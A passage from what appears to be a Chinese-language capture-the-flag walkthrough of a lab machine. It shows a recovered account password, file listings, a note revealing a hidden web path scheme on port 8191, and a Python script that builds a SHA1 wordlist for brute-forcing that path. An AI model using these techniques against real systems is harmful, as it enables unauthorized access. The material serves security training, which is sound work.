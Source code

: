 解压后发现 *jenny* 账户的密码：`!!!sfbay!!!`，切换到该账户后可查看 */home/max/aView.py* 脚本文件。

```shell
jenny@view:/home/max$ ls -al
total 28
drwxr-xr-x 2 max      jenny    4096 Oct 26  2019 .
drwxr-xr-x 6 root     root     4096 Oct 27  2019 ..
-rwxrwx--- 1 max      jenny     124 Oct 26  2019 aView.py
-rw-r--r-- 1 max      max       220 Oct 20  2019 .bash_logout
-rw-r--r-- 1 max      max      3771 Oct 20  2019 .bashrc
-rw-r--r-- 1 scarpine scarpine  553 Oct 26  2019 note.txt
-rw-r--r-- 1 max      max       807 Oct 20  2019 .profile
```

并且在 *note.txt* 文件中发现运行在 **8191** 端口的程序，提示我们需要对路径进行爆破。

```shell
jenny@view:/home/max$ cat note.txt
Max,

The electronic controller web application you asked for is almost done. Located on port 8191 this app will allow you to execute your plan from a remote location.

The remote trigger is located in a hidden web directory that only you should know - I verbally confirmed it with you. If you do not recall, the directory is based on an algorithm:  SHA1(lowercase alpha(a-z) + "view" + digit(0-9) + digit(0-9)).

Example: SHA1(rview86) = 044c64c6964998ccb62e8facda730e8307f28de6 = http://<ip>:8191/044c64c6964998ccb62e8facda730e8307f28de6/

- Scarpine
```

此外也注意到该进程是由 *root* 创建的。

```shell
root      1228  0.0  0.1  11592  1864 ?        Ss   03:21   0:00 /bin/bash /root/ctf-scripts/svc.sh
root      1238  0.0  1.9 273112 20152 ?        S    03:21   0:00  \_ php -S 0.0.0.0:8191
```

### 字典生成

使用 *python* 生成字典：

```python
import string
from hashlib import sha1

fuzz = []
for alpha in string.ascii_lowercase:
    for a in string.digits:
        for b in string.digits:
            payload = sha1((alpha+"view"+a+b+"\n").encode("utf-8")).hexdigest()
            fuzz.append(payload)

newfile = open("dic.txt","w")

for i in fuzz:
    newfile.write(i)
    newfile.write("\n")

newfile.close()
```
